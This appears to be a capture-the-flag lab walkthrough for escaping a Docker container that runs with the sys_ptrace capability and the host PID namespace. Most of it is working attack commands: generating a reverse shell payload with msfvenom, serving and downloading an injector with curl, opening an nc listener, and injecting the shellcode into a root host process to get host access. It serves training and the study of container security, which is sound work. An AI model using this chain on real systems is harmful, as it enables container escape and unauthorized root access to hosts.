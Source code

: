 # Attacking Container Capabilities

In this scenario we will exploit a container with `sys_ptrace` capability running with host `PID` namespace. We will exploit these to breakout of the container and access the host system. We assume that the attacker already has access to the container for this scenario.

* Login to the container using below command. Ensure that you run this in the `CTF` vm 

```bash
docker exec -it sysmon bash
```

![docker exec into sysmon](images/sysmon-access.png)

* Check for existing capabilities by running `capsh --print`

![capsh print](images/sysmon-capsh.png)

* Also the container has enabled `--pid=host` so we can access then host process using `top` command

![top command](images/sysmon-top.png)

> Since an attacker can list host processes and has the `sys_ptrace` capability. Attacker can exploit this scenario to inject and execute code from the address space of any host process. This effectively results in a docker escape as the attacker can execute code outside the container.

## Steps to attack

* Generate reverse shell payload using metasploit's `msfvenom` program. Replace the `192.168.56.3` with student vm IP address.

```bash
cd /home/student/linux-injector

msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.3 LPORT=4444 -f raw -o payload.bin
```

![msfvenom generate](images/sysmon-msfvenom-generate.png)

* Send the exploit and injector program to the container using simple python server. Run the below command in student vm

```bash
cd /home/student
tar -czf linux-injector.tar.gz linux-injector
python -m SimpleHTTPServer 8002
```

![start python server](images/sysmon-start-python-server.png)

* Download the payload in the ctf vm container. Run the below command in the CTF vm and inside the `sysmon` container. Ensure you replace the `192.168.56.3` with your student vm IP


```bash
curl -o linux-injector.tar.gz http://192.168.56.3:8002/linux-injector.tar.gz
tar xzf linux-injector.tar.gz
cd linux-injector
chmod 755 injector
```

![download the payload](images/sysmon-download-payload.png)


* Start the `nc` listener to receive the connect back shell in student vm. Run the following command in student VM

```bash
nc -lvp 4444
```

![start nc listener](images/start-nc-listener.png)


* Now identify the process, which is running as `root` in the host system to gain root access for connect back. Run the following command inside CTF vm `sysmon` container

```bash
ps auxx | grep root | grep ping
```

![sysmon payload execution](images/sysmon-payload-execution.png)

```bash
./injector 2046 payload.bin
```

* On successful injection of payload, we get a reverse connection at our listener with access to host system outside the container

![got access to host system flag](images/sysmon-access-host-flag.png)
